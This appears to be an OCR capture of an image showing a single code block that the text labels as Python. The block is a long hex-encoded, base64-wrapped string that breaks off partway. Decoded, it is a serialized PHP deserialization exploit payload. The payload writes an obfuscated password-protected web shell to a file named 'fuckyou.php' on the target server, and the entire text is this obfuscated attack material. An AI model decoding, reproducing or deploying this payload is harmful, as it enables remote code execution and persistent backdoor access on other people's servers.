 ```python
=00=46=00=59=00=30=00=61=00=31=00=4D=00=78=00=63=00=32=00=74=00=68=00=55=00=33=00=4E=00=6E=00=54=00=56=00=4E=00=42=00=62=00=55=00=6C=00=45=00=52=00=54=00=46=00=4A=00=52=00=6A=00=41=00=33=00=5A=00=6C=00=68=00=4B=00=62=00=47=00=52=00=49=00=56=00=6E=00=6C=00=69=00=61=00=56=00=4A=00=46=00=54=00=7A=00=4D=00=78=00=62=00=57=00=52=00=58=00=4E=00=57=00=70=00=6B=00=52=00=32=00=78=00=32=00=59=00=6D=00=6C=00=43=00=55=00=6B=00=74=00=44=00=55=00=6B=00=56=00=4C=00=57=00=48=00=52=00=35=00=57=00=6C=00=68=00=53=00=4D=00=57=00=4E=00=74=00=4E=00=47=00=64=00=5A=00=62=00=55=00=5A=00=36=00=57=00=6C=00=52=00=5A=00=4D=00=46=00=67=00=79=00=56=00=6E=00=56=00=5A=00=4D=00=6A=00=6C=00=72=00=57=00=6C=00=4E=00=6E=00=61=00=31=00=4A=00=44=00=61=00=7A=00=64=00=6D=00=56=00=31=00=6F=00=78=00=59=00=6D=00=31=00=4F=00=4D=00=47=00=46=00=58=00=4F=00=58=00=56=00=4A=00=52=00=54=00=68=00=76=00=53=00=6B=00=56=00=52=00=63=00=47=00=55=00=7A=00=53=00=6D=00=78=00=6B=00=53=00=46=00=5A=00=35=00=59=00=6D=00=6C=00=43=00=61=00=56=00=6C=00=59=00=54=00=6D=00=78=00=4F=00=61=00=6C=00=4A=00=6D=00=57=00=6B=00=64=00=57=00=61=00=6D=00=49=00=79=00=55=00=6D=00=78=00=4C=00=51=00=31=00=4A=00=46=00=53=00=31=00=52=00=30=00=4F=00=55=00=70=00=47=00=51=00=54=00=6C=00=4B=00=4D=00=30=00=4A=00=6F=00=59=00=7A=00=4E=00=4E=00=62=00=6B=00=39=00=35=00=55=00=6C=00=64=00=51=00=55=00=32=00=52=00=33=00=57=00=56=00=68=00=73=00=63=00=32=00=49=00=79=00=52=00=6D=00=74=00=4B=00=65=00=6E=00=4E=00=72=00=56=00=6B=00=51=00=77=00=62=00=6B=00=30=00=79=00=54=00=54=00=4A=00=61=00=56=00=45=00=4A=00=70=00=54=00=30=00=64=00=46=00=4E=00=56=00=6C=00=36=00=52=00=54=00=46=00=4E=00=61=00=6B=00=6B=00=77=00=57=00=56=00=4E=00=6A=00=4E=00=32=00=46=00=58=00=57=00=57=00=39=00=68=00=57=00=45=00=35=00=36=00=57=00=6C=00=68=00=52=00=62=00=30=00=70=00=47=00=4F=00=56=00=46=00=55=00=4D=00=55=00=35=00=56=00=56=00=33=00=6C=00=53=00=55=00=56=00=68=00=54=00=61=00=33=00=42=00=6C=00=65=00=56=00=4A=00=48=00=55=00=46=00=55=00=34=00=62=00=31=00=4A=00=54=00=61=00=46=00=42=00=4C=00=51=00=31=00=4A=00=6D=00=56=00=55=00=55=00=35=00=56=00=46=00=5A=00=47=00=63=00=32=00=74=00=56=00=52=00=6A=00=42=00=77=00=54=00=45=00=4E=00=53=00=56=00=55=00=74=00=54=00=61=00=7A=00=64=00=68=00=56=00=31=00=6C=00=76=00=59=00=56=00=68=00=4F=00=65=00=6C=00=70=00=59=00=55=00=57=00=39=00=4B=00=52=00=6A=00=6C=00=55=00=55=00=6C=00=5A=00=4F=00=56=00=46=00=4E=00=56=00=4F=00=55=00=39=00=58=00=65=00=56=00=4A=00=58=00=57=00=46=00=4E=00=72=00=63=00=47=00=56=00=35=00=55=00=6B=00=31=00=51=00=55=00=31=00=4A=00=6D=00=56=00=54=00=42=00=57=00=56=00=46=00=55=00=77=00=62=00=46=00=42=00=55=00=62=00=48=00=4E=00=72=00=56=00=6D=00=77=00=77=00=4E=00=30=00=70=00=46=00=52=00=54=00=6C=00=61=00=57=00=47=00=68=00=33=00=59=00=6B=00=63=00=35=00=61=00=31=00=70=00=54=00=5A=00=32=00=35=00=6D=00=51=00=32=00=4E=00=7A=00=53=00=6B=00=56=00=33=00=63=00=45=00=38=00=79=00=54=00=6E=00=4E=00=5A=00=57=00=45=00=35=00=36=00=53=00=55=00=56=00=4F=00=4E=00=32=00=4E=00=49=00=56=00=6D=00=6C=00=69=00=52=00=32=00=78=00=71=00=53=00=55=00=64=00=61=00=4D=00=57=00=4A=00=74=00=54=00=6A=00=42=00=68=00=56=00=7A=00=6C=00=31=00=53=00=55=00=63=00=31=00=4D=00=6D=00=49=00=79=00=64=00=47=00=78=00=4C=00=51=00=31=00=4A=00=33=00=53=00=31=00=68=00=30=00=62=00=47=00=52=00=74=00=52=00=6E=00=4E=00=4C=00=51=00=31=00=4A=00=33=00=54=00=47=00=6C=00=4A=00=61=00=55=00=74=00=55=00=64=00=44=00=6C=00=6D=00=55=00=31=00=4A=00=54=00=55=00=46=00=63=00=31=00=62=00=47=00=52=00=35=00=51=00=6B=00=52=00=4C=00=51=00=32=00=73=00=33=00=53=00=6B=00=5A=00=4A=00=64=00=46=00=42=00=74=00=4E=00=54=00=4A=00=69=00=4D=00=6E=00=52=00=73=00=53=00=30=00=4E=00=53=00=51=00=6C=00=64=00=35=00=51=00=58=00=64=00=4A=00=52=00=6A=00=42=00=77=00=54=00=7A=00=4A=00=57=00=61=00=6D=00=46=00=48=00=4F=00=47=00=64=00=6A=00=4D=00=31=00=5A=00=70=00=59=00=7A=00=4E=00=53=00=65=00=55=00=74=00=48=00=4D=00=57=00=74=00=4F=00=55=00=32=00=64=00=72=00=56=00=55=00=4D=00=30=00=61=00=31=00=5A=00=44=00=61=00=33=00=4E=00=4A=00=52=00=45=00=46=00=6E=00=54=00=45=00=4E=00=42=00=65=00=45=00=35=00=70=00=51=00=58=00=42=00=50=00=4D=00=6C=00=5A=00=71=00=59=00=55=00=63=00=34=00=5A=00=31=00=56=00=54=00=61=00=45=00=5A=00=4C=00=52=00=55=00=4A=00=35=00=5A=00=46=00=63=00=30=00=62=00=30=00=70=00=46=00=57=00=58=00=42=00=4D=00=51=00=31=00=4A=00=56=00=53=00=31=00=4E=00=72=00=4E=00=31=00=70=00=58=00=54=00=6D=00=39=00=69=00=65=00=55=00=4A=00=36=00=5A=00=46=00=64=00=4B=00=65=00=6D=00=52=00=49=00=53=00=57=00=39=00=69=00=56=00=31=00=45=00=78=00=53=00=30=00=4E=00=53=00=55=00=55=00=78=00=70=00=55=00=6C=00=56=00=4C=00=55=00=33=00=64=00=6E=00=54=00=56=00=52=00=5A=00=5A=00=30=00=74=00=55=00=64=00=44=00=6C=00=61=00=56=00=33=00=68=00=36=00=57=00=6C=00=68=00=7A=00=61=00=31=00=67=00=78=00=54=00=6B=00=5A=00=56=00=4D=00=55=00=35=00=4B=00=56=00=44=00=41=00=31=00=59=00=6B=00=70=00=47=00=57=00=6D=00=52=00=51=00=55=00=31=00=4A=00=48=00=54=00=7A=00=4D=00=78=00=4F=00=53=00=42=00=38=00=49=00=47=00=4A=00=68=00=63=00=32=00=55=00=32=00=4E=00=43=00=41=00=74=00=5A=00=43=00=41=00=2B=00=4C=00=69=00=39=00=6D=00=64=00=57=00=4E=00=72=00=65=00=57=00=39=00=31=00=4C=00=6E=00=42=00=6F=00=63=00=43=00=49=00=37=00=63=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=73=00=5A=00=58=00=5A=00=6C=00=62=00=43=00=49=00=37=00=54=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=62=00=47=00=56=00=32=00=5A=00=57=00=77=00=69=00=4F=00=30=00=34=00=37=00=63=00=7A=00=6F=00=78=00=4E=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=68=00=62=00=47=00=6C=00=36=00=5A=00=57=00=51=00=69=00=4F=00=32=00=49=00=36=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=30=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=69=00=64=00=57=00=5A=00=6D=00=5A=00=58=00=4A=00=4D=00=61=00=57=00=31=00=70=00=64=00=43=00=49=00=37=00=61=00=54=00=6F=00=74=00=4D=00=54=00=74=00=7A=00=4F=00=6A=00=45=00=7A=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=77=00=63=00=6D=00=39=00=6A=00=5A=00=58=00=4E=00=7A=00=62=00=33=00=4A=00=7A=00=49=00=6A=00=74=00=68=00=4F=00=6A=0
```